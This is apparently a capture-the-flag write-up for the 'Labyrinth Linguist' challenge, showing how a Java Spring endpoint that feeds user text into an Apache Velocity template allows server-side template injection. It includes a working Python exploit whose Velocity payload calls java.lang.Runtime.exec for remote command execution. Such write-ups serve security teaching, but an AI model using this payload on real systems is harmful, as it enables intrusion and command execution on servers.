 # Labyrinth Linguist

You and your faction find yourselves cornered in a refuge corridor inside a maze while being chased by a KORP mutant exterminator. While planning your next move you come across a translator device left by previous Fray competitors, it is used for translating english to voxalith, an ancient language spoken by the civilization that originally built the maze. It is known that voxalith was also spoken by the guardians of the maze that were once benign but then were turned against humans by a corrupting agent KORP devised. You need to reverse engineer the device in order to make contact with the mutant and claim your last chance to make it out alive.

## Writeup

We can send a **text** param that will replace the **TEXT placeholder** of **index.html** as we can see in the code:

```java
@RequestMapping("/")
@ResponseBody
String index(@RequestParam(required = false, name = "text") String textString) {
    if (textString == null) {
        textString = "Example text";
    }

    String template = "";

    try {
        template = readFileToString("/app/src/main/resources/templates/index.html", textString);
    } catch (IOException e) {
        e.printStackTrace();
    }

    RuntimeServices runtimeServices = RuntimeSingleton.getRuntimeServices();
    StringReader reader = new StringReader(template);

    org.apache.velocity.Template t = new org.apache.velocity.Template();
    t.setRuntimeServices(runtimeServices);
    try {

        t.setData(runtimeServices.parse(reader, "home"));
        t.initDocument();
        VelocityContext context = new VelocityContext();
        context.put("name", "World");

        StringWriter writer = new StringWriter();
        t.merge(context, writer);
        template = writer.toString();

    } catch (ParseException e) {
        e.printStackTrace();
    }

    return template;
}

public static String readFileToString(String filePath, String replacement) throws IOException {
    StringBuilder content = new StringBuilder();
    BufferedReader bufferedReader = null;

    try {
        bufferedReader = new BufferedReader(new FileReader(filePath));
        String line;
        
        while ((line = bufferedReader.readLine()) != null) {
            line = line.replace("TEXT", replacement);
            content.append(line);
            content.append("\n");
        }
    } finally {
        if (bufferedReader != null) {
            try {
                bufferedReader.close();
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
    }

    return content.toString();
}
```

So it is vulnerable to **SSTI** for **velocity**, we can try to use this **PoC**:

```java
#set($run=7*7) $run
```

The output is:

```
49
```

So now, we can write an exploit to use this vulnerability to make some **RCE**:

```python
#!/usr/bin/python3
import requests


ip = "83.136.255.205"
port = 51683
"""
ip = "localhost"
port = 1337
"""

url = f"http://{ip}:{port}/"

PoC = "#set($run=7*7) $run"

command = "cat /flaga68e9e6704.txt"

payload = f"""
#set($x='')
#set($rt=$x.class.forName('java.lang.Runtime'))
#set($chr=$x.class.forName('java.lang.Character'))
#set($str=$x.class.forName('java.lang.String'))
#set($ex=$rt.getRuntime().exec('{command}'))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end
"""

req = requests.post(url, params={'text': payload})
print(req.text)
```

The flag is:

```
HTB{f13ry_t3mpl4t35_fr0m_th3_d3pth5!!}
```